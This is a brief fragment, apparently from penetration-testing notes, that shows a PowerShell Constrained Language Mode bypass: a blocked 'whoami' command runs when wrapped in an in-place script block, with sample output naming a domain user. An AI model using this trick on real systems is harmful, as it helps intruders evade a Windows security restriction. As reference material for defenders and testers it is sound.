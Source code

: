 # Constrained Language Mode Bypass

In-place functions:

```
PS > whoami
The term 'whoami.exe' is not recognized as the name of cmdlet...
PS > &{ whoami }
megacorp\snovvcrash
```

